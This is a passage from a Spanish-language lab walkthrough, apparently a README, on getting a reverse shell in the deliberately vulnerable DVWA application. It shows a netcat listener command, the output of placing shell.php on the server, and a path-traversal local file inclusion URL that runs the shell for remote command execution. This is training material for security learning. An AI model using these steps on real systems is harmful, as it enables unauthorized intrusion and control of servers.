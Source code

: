 **RESULTADO ESPERADO**
👉**Si todo sale bien**,veremos algo como
>[INFO] the remote file '/var/lib/mysql/hacked.php' is larger (189 B) than the local file '/home/kali/shell.php' (188B)

## 3. Ejecución de la reverse shell
🟢**3.1 Preparar el listener**
Utilizando Netcat, abrimos el puerto de escucha en la Kali. **Debe coincidir con el puerto escrito en `shell.php`**
```bash
nc -lvnp 4444
```

🔹**Donde**:
- `-l`: Modo escucha
- `-v`: Modo verbose (nos muestra las conexiones)
- `-n`: No hace resolución DNS
- `-p`: Puerto

🟢**3.2 Activar la shell mediante LFI**
Ya que la shell se guardó en `/var/lib/mysql/hacked.php`, la ejecutamos **incluyéndola en la aplicación web** vulnerable a **LFI (Local File Inclusion)**.
Para ello, desde el navegador hay que acceder a:
`http://10.0.2.x/dvwa/vulnerabilities/fi/?page=../../../../../../var/lib/mysql/hacked.php`

🔹Donde:
- `/fi/`: Es el recurso web vulnerable a LFI
- `page`: Es el atributo desde donde nos dirigimos a la reverse shell

**RESULTADO ESPERADO**
👉**Si todo sale bien**, en la terminal Kali veremos algo como:
> listening on [any] 4444 ...
>connect to [IP_KALI] from (UNKNOWN) [IP_DVWA] 41889

**🎉 Una vez logrado esto, ya podremos ejecutar comandos desde la terminal**
